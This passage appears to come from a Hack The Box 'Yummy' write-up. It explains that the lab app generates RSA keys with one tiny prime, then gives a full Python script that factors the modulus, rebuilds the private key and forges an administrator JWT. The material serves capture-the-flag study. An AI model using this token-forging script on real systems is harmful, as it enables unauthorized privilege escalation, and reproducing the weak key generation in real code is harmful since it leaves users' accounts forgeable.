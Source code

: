 When a token is successfully extracted it is decoded with the `jwt.decode` method, which uses the public key from the `signature` module (this module contains a python script called `signature.py`) with the `RS256` algorithm being specified. The decoded data must contain a user's role (`customer` or `administrator`) and an email.

![verify.py file](/images/HTB-Yummy/verification_yummy.png)

The `signature.py` file in `app/config/` is a script used to generate an RSA key pair.  It uses two random prime number `q` and `n`. 

The RSA security depends on choosing large and random prime numbers for `p` and `q` so that factoring  `n = p * q` is infeasible. Here `q` is a smaller prime (~20 bits) which facilitates brute force attacks.  When we find `q`, `p` can be derived since `p = n // q`, which allows us to compute the private key. From there we can sign our own JWT tokens and grant ourselves the `administrator` role for privilege escalation.

![signature.py file](/images/HTB-Yummy/signature_yummy.png)

We will use a python script to obtain a JWT token as `administrator`.

```python
from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy
import jwt
import base64

original_jwt = "PUT YOUR CURRENT JWT TOKEN HERE"
s = original_jwt.split(".")[1].encode()
s = base64.b64decode(s + b'=' * (-len(s) % 4)).decode()
n = int(s.split('"n":')[1].split('"')[1])

e = 65537

factors = sympy.factorint(n)  # Returns a dictionary of prime factors
p, q = list(factors.keys())

phi_n = (p - 1) * (q - 1)

d = pow(e, -1, phi_n)


key = RSA.construct((n, e, d, p, q))
signing_key = key.export_key()

decoded_payload = jwt.decode(original_jwt, signing_key, algorithms=["RS256"], options={"verify_signature": False})

decoded_payload['role'] = 'administrator'

new_jwt = jwt.encode(decoded_payload, signing_key, algorithm='RS256')

print(new_jwt)
```
